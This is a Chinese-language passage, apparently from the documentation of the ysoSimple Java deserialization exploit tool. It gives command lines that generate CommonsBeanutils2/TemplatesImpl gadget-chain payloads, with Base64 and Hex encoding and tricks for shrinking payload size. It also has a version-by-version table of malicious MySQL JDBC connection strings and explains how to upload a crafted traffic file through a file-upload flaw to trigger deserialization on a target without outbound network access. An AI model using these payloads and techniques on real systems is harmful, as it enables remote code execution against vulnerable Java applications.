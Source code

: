 描述：使用encode参数对Java序列化数据进行编码，支持Base64编码，Hex编码输出

工具：-encode="Base64" 或者 -encode="Hex" 即可

```java
-m YsoAttack -g CommonsBeanutils2 -a "Templateslmpl:auto_cmd:calc" -encode "Base64"

-m YsoAttack -g CommonsBeanutils2 -a "Templateslmpl:auto_cmd:calc" -encode "Hex"
```

#### TemplatesImpl 利用链压缩

描述：Java原生反序列化利用链中涉及到TemplatesImpl链的是可以进行缩短，参考4ra1n师傅的[终极Java反序列化Payload缩小技术](https://mp.weixin.qq.com/s/cQCYhBkR95vIVBicA9RR6g)和[ShortPayload](https://github.com/freeFV/ShortPayload)项目，总结就是如下缩小方式：使用ASM+Javassit操作字节码来缩小

TemplatesImpl加载的字节码缩小手段：

* ByteCodes字节码类中捕获的异常不处理
* LINENUMBER指令删除
* 使用javassist生成字节码
* 删除继承AbstractTranslet类需要重写的俩个方法(使用javassist生成的字节码自动没有重写)

TemplatesImpl链缩小手段：

* 设置_name属性是一个字符
* 其中_tfactory属性可以删除

工具：添加compress参数将会压缩TemplatesImpl利用链

```java
-m YsoAttack -g CommonsBeanutils2 -compress -a "Templateslmpl:auto_cmd:calc"
```

YsoSimple工具中`TemplatesImpl:`​命令生成的字节码类需要继承AbstractTranslet类。`Templateslmpl0:`​命令生成的字节码类不需要继承AbstractTranslet类，但是该场景下不支持compress压缩。

####  mysql-pcap 生成Mysql的Java序列化数据流文件

描述：Mysql的Jdbc连接时的不出网的利用，将生成的流量文件利用文件上传漏洞传入到目标服务器，然后利用jdbc连接的方式触发漏洞。可以执行漏洞利用的客户端的版本：

| mysql-connector-java版本            | JDBC连接串                                                   | 流量包版本 |
| ----------------------------------- | ------------------------------------------------------------ | ---------- |
| 5.1.11-5.1.18(包含俩边界)           | jdbc:mysql://ceshihost/test?useSSL=false&autoDeserialize=true&statementInterceptors=com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor&user=root&socketFactory=com.mysql.jdbc.NamedPipeSocketFactory&namedPipePath={filePath} | Version1   |
| 5.1.19-5.1.28(包含俩边界)           | jdbc:mysql://ceshihost/test?useSSL=false&autoDeserialize=true&statementInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&user=root&socketFactory=com.mysql.cj.core.io.NamedPipeSocketFactory&namedPipePath={filePath} | Version2   |
| 5.1.29-5.1.48(包含俩边界)           | jdbc:mysql://ceshihost/test?useSSL=false&autoDeserialize=true&statementInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&user=root&socketFactory=com.mysql.cj.core.io.NamedPipeSocketFactory&namedPipePath={filePath} | Version2   |
| 6.0.2-6.0.6(包含俩边界)             | jdbc:mysql://ceshihost/test?useSSL=false&autoDeserialize=true&statementInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&user=root&socketFactory=com.mysql.cj.core.io.NamedPipeSocketFactory&namedPipePath={filePath} | Version2   |
| 8.0.11-8.0.19(11可以,19可以,20不行) | jdbc:mysql://ceshihost/test?&maxAllowedPacket=74996390&autoDeserialize=true&queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&user=root&socketFactory=com.mysql.cj.protocol.NamedPipeSocketFactory&namedPipePath={filePath} | Version3   |

注意事项：因为流量包的制作不单与mysql-connector-java版本有关也和jdbc连接串中的用户名有关，ysoSimple工具的mysql-pcap会根据提供的mysql-connector-java版本同时生成jdbc连接串和流量包，漏洞利用过程中不要轻易更改jdbc连接串。

工具：使用方式如下，在mysql-pcap参数后面跟mysql-connector-java依赖的版本：

```bash
-m YsoAttack -g CommonsBeanutils2_110 -a "Templateslmpl:auto_cmd:calc" -mysql-pcap 5.1.13 -writeToFile="./5.1.13.bin"

-m YsoAttack -g CommonsBeanutils2_110 -a "Templateslmpl:auto_cmd:calc" -mysql-pcap 5.1.20 -writeToFile="./5.1.20.bin"

-m YsoAttack -g CommonsBeanutils2_110 -a "Templateslmpl:auto_cmd:calc" -mysql-pcap 5.1.36 -writeToFile="./5.1.36.bin"

-m YsoAttack -g CommonsBeanutils2_110 -a "Templateslmpl:auto_cmd:calc" -mysql-pcap 6.0.5 -writeToFile="./6.0.5.bin"

```